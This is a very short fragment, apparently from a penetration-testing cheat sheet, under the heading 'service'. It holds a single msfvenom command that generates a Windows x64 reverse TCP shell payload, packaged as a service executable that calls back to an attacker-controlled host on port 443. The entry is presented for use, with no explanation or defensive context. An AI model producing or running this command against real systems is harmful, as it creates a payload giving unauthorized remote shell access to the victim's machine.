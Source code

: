#### service
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe-service -o service.exe
```

